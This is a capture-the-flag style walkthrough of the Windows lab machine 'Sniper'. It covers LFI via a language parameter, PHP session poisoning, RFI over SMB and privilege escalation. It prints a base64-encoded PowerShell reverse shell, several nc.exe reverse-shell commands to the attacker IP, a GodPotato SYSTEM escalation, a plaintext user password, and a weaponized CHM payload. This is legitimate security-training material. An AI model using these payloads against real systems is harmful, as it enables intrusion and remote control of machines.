- Machine Name: Sniper
- OS Type: Windows
- Difficulty: Medium

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Tue Apr 22 09:28:36 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.10.151
Nmap scan report for 10.10.10.151
Host is up, received echo-reply ttl 127 (0.29s latency).
Scanned at 2025-04-22 09:28:37 IST for 913s
Not shown: 65530 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-04-22T11:13:11
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 18459/tcp): CLEAN (Timeout)
|   Check 2 (port 47966/tcp): CLEAN (Timeout)
|   Check 3 (port 51336/udp): CLEAN (Timeout)
|   Check 4 (port 18241/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 22 09:43:50 2025 -- 1 IP address (1 host up) scanned in 913.41 seconds

```

## Enumeration

### Port 139,445/SMB

let’s check if we can login to smb anonymously also known as null session



No we can’t, let’s check the msrpc using rpcclient



### Port 80/HTTP

port 80 is open means we are going to deal with web app, let’s open the website in browser



clicking on User Portal we are redirected to user login/register page

side by side let’s check what technologies are used in website using whatweb

```bash
whatweb http://10.10.10.151
```



i’ll also run gobuser with following lists:

- raft-medium-files/directories.txt
- quickhits.txt
- raft-medium-words.txt with -x option to specify the file extensions such as php,aspx,conf,txt etc



as we don’t have any creds let’s try default creds first like -admin/password, admin/admin, user/user not worked, let’s create an account by clicking on  SignUp and we are redirected to below under construction page after registration



clicking on Our services led us to blog page and then click on language page to select page language



it uses the lang GET parameter to include the language file, and then change language based on  it

let’s check if we can include the file or not



so it says page not found!, what about trying forward-slash instead of back slash



it included the file to the bottom of the web source. now i tried to open xampp folder but is says not  found means the web app is not running Xampp, now we have LFI, we need to think how can we write to any folder so we can get that execute, as login page i thought about PHP session what if we write php code in username and then include the file to see if it executes the file or not first of all,

 Let’s find how to get the  session cookie (PHPSESSID)from Windows we found https://www.quora.com/Where-is-the-php-session-stored

so the session stored in windows - `C:\Windows\temp\sess_<SESSION_ID>` 

so let’s first try to add simple php script to username

```php
<?php echo hacker ?>
```

and get it’s session ID from network tab PHPSESSID and access it to see if we can see the output or not

i tried with semicolon registration get successfully, but at login time it shows incorrect username/password  maybe some filtering at backend side



let’s register and login with same creds `<?php echo 'hacker' ?>` as username and password you’ve created during registration process



inspect network tab and grab valule of PHPSESSID, include file from

```php
?lang=/windows/temp/sess_jahqk79icdhure5bkll8r0gd9b
```

view the source of website and we found it is working



nice now to get proper shell i’ve tried:

- echo system(”whoami”)
- echo system($_GET[’cmd’]) ?>

but none of them are working, i found valid payload to execute on the website, `<?php echo `whoami` ?>` 



we have command execution as NT Authority\iusr, in next payload  i’ll start python http.server where my nc.exe located download and execute it via

after some trial-error i found that the `-` is blocked by the server now what!, means we can’t use the certutil commands, curl commands even nc.exe to get reverse shell now what! let’s think about the RFI

let’s try to include  files from our machine using smbserver 

create a shell.php with following code

```php
<?php
system("whoami");
?>
```

and try to access the share from `?lang=\\10.10.14.17\test` and we got incoming connection so we can include the file from our machine, let’s try `\\10.10.14.17\test\shell.php` to see if it executes the shell

```php
impacket-smbserver test . -smb2support
```





**YOU SAID IT PHP EXECUTED IT!!**

let’s get pretty shell <3, i’ll use [revshells.com](http://revshells.com) to generate base64 encoded powershell reverse shell

```php
<?php
system("powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQA3ACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=");
?>
```

start listener on port 443 (based on port you’ve specified while creating the shell)



check the reverse shell listener



let’s see what permissions do we have as iusr run `whoami /priv` 



let’s check other users on the system using `net user` 



ok so there’s use named Chris let’s check group membership of the Chris user

```php
net user Chris
```



Ohh the user is member of **Remote Management Users** possibly we should find some creds and login using evil-winrm as chris user but let’s first try to exploit **SeImpersonatePrivilege** using GodPotato



to get SYSTEM shell,  first download nc.exe to C:\temp directory

and then execute the god.exe to execute nc.exe to get shell

```php
. .\god.exe -cmd 'cmd /c \temp\nc.exe 10.10.14.17 443 -e cmd'
```

and Boom! we got SYSTEM Shell directly



# Another Way (Intended Way)

while we enumerating the system we found the C:\inetpub\wwwroot\user\db.php which contains the password for chris user 



user is member of remote management users group but we can see  the  port 5985 is open so we can’t connect to this machine via evil-winrm

we’ll use the RunasCs.exe to get shell as chris

download RunasCs zip from [here](https://github.com/antonioCoco/RunasCs/releases) unzip it and upload RunasCs.exe to target machine, run it with username and password of chris user and use `-r` option to connect to remote, also specify the port and start nc listener on the same port

```php
. .\runas.exe chris 36mEAhz/B8xQ~2VM cmd.exe -r 10.10.14.17:139
```



we shall received shell on port 139



now moving forward i found the C:\Docs directory that has note.txt file which seems interesting



also we found [instructions.ch](http://instructions.ch)m file in C:\Users\chris\Downloads



searching for chm file on google



so it is a help documentation kind of thing, let’s connect dots here the CEO is asking the chris to upload documentation and chris has instructions.chm file what if we can put the documentation.chm file and can get reverse shell from it! we found this script from github - [https://gist.githubusercontent.com/infosecn1nja/aeeda8f9d3b94f6fed727550b81faeda/raw/d846fbcd7d04c3c22ec44030f39c6fb3e0ee6e1a/gen-chm.pyhttps://gist.githubusercontent.com/infosecn1nja/aeeda8f9d3b94f6fed727550b81faeda/raw/d846fbcd7d04c3c22ec44030f39c6fb3e0ee6e1a/gen-chm.py](https://gist.githubusercontent.com/infosecn1nja/aeeda8f9d3b94f6fed727550b81faeda/raw/d846fbcd7d04c3c22ec44030f39c6fb3e0ee6e1a/gen-chm.py)

```php
python2 gen-chm.py -c '\temp\nc.exe 10.10.14.17 4444 -e cmd' -o documentation.chm
```



however script is not working as expected, searching on google we found this useful article that shows how to generate the chm file to get reverse shell - https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e

download HTML help  exe from here → http://web.archive.org/web/20160201063255/http://download.microsoft.com/download/0/A/9/0A939EF6-E31C-430F-A3DF-DFAE7960D564/htmlhelp.exe, install it and run below command to powershell to donwload nishang module from github

```php
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Client/Out-CHM.ps1 -outfile out-chm.ps1
```

and then import module using `Import-Module .\out-chm.ps1`  (Make sure to Set-ExecutionPolicy Bypass) and Windows defender is off

Next, create the payload using the ***Payload*** command and specify the path to the HTML Help application (hh.exe) to compile the file.

```php
 out-chm -payload "C:\temp\nc.exe 10.10.14.17 135 -e cmd" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```



this will generate doc.chm file in current working directory

upload the file to C:\Docs folder wait for shell on port 135 as administrator

